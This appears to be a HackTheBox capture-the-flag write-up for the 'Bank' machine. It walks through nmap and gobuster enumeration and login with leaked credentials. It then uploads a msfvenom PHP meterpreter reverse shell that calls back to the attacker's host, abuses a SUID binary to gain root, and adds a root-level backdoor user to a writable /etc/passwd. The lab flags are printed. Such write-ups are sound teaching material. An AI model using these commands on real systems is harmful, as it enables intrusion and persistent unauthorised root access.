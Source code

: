 ```yaml
---
layout: post
title: HackTheBox Bank 
date: 2017-06-16
tags: [HackTheBox, Linux]
---
```


# Machine Synopsis

Bank is a relatively simple machine, however proper web enumeration is key to finding the necessary data for entry. ([Source](https://www.hackthebox.com/machines/bank))

# Enumeration

```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.29
Nmap scan report for 10.10.10.29
Host is up (0.18s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=5/29%OT=22%CT=1%CU=33679%PV=Y%DS=2%DC=T%G=Y%TM=60B1C34
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   177.29 ms 10.10.14.1
2   177.79 ms 10.10.10.29

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```

# Website

![c518677787c99cdbaf00ae5364e2671b.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bank/HomePage.png?raw=true)
Seems like we need to add the hostname to our `/etc/hosts/` file

```bash
┌──(root💀Shiro)-[/home/shiro]
└─# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	Shiro.Blank	Shiro
10.10.10.29	bank.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Now, we should be able to view the website.

![Login.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bank/Login.png?raw=true)

Let's run `gobuster` to brute force the possible URLs in the website (use flag `-x php` because the website is running php).

```bash
┌──(root💀Shiro)-[/home/shiro]
└─# gobuster dir --url http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 50
...
/support.php (Status: 302)
/uploads (Status: 301)
/assets (Status: 301)
/logout.php (Status: 302)
/login.php (Status: 200)
/index.php (Status: 302)
/inc (Status: 301)
/server-status (Status: 403)
/balance-transfer (Status: 301)
...
```

Lets visit the `/balance-transfer/` page and sort it by size.
![BalanceTransfer.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bank/BalanceTransfer.png?raw=true)

Notice that there is one file that has a smaller size compared to others

![InterestingFile.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bank/InterestingFile.png?raw=true)

We can login to the webapp using the credentials found.

![Dashboard.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bank/Dashboard.png?raw=true)

![Dashboard_2.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bank/Dashboard_2.png?raw=true)

Inspecting the page source shows that we should use `.htb` extensions

![PageSource.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bank/PageSource.png?raw=true)

Generate a reverse php shell with `.htb` extension using msfvenom.

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Bank]
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f raw > exploit.htb
```

Then upload the file to the website, start `msfconsole` and then execute the PHP file.

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > set AUTORUNSCRIPT post/windows/manage/migrate
AUTORUNSCRIPT => post/windows/manage/migrate
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
...
[*] Meterpreter session 1 opened (10.10.14.2:1234 -> 10.10.10.29:35630) at 2021-05-29 14:54:01 +0800

meterpreter > shell
Process 1512 created.
Channel 0 created.
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")' # https://netsec.ws/?p=337
www-data@bank:/var/www/bank/uploads$
```

# Privilege Escalation

Lets search for all SUID binaries owned by root.

>   -   search all subdirectories of `/` (the entire file system)
>   -   `type f` - only return files
>   -   `user root` - only return files owned by root
>   -   `perm -4000` - files with SUID bit set
>   -   `2>/dev/null` - don't show errors
>

```bash
www-data@bank:/var/www/bank/uploads$ find / -type f -user root -perm -4000 2>/dev/null
</uploads$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
...
```

We found an interesting `/var/htb/bin/emergency` so lets try to run it

```bash
www-data@bank:/var/www/bank/uploads$ /var/htb/bin/emergency
#
# whoami
root
# cat /home/chris/user.txt
c81ee9df3751ccf82b64af3046a3269a
# cat /root/root.txt
e92b13e6ff0dd9361add88e07b6687c9
```

# Alternative Privilege Escalation

Another way of getting root is to exploit the writeable `passwd` folder.

```bash
# ls -l /etc/passwd /etc/shadow 				Note that -1 will generate a MD5 password, -5 a SHA256 and -6 SHA512
ls -l /etc/passwd /etc/shadow
-rw-rw-rw- 1 root root   1252 May 28  2017 /etc/passwd
-rw-r----- 1 root shadow  895 Jun 14  2017 /etc/shadow
```

Then, generate a password hash for the password “shiro” using openssl

```bash
# openssl passwd -1 shiro
openssl passwd -1 shiro
$1$pOJIRjNf$gJAUfsAmmuY1XUuud4ink/
```

Then add a line to `/etc/passwd` using echo in this format

-   `username:password:userid:groupid:comment:homedirectory:shell`

```bash
# echo 'shiro:$1$pOJIRjNf$gJAUfsAmmuY1XUuud4ink/:0:0:pwned:/root:/bin/bash' >> /etc/passwd
echo 'shiro:$1$pOJIRjNf$gJAUfsAmmuY1XUuud4ink/:0:0:pwned:/root:/bin/bash' >> /etc/passwd
# su - shiro
su - shiro
Password: shiro

root@bank:~#
```
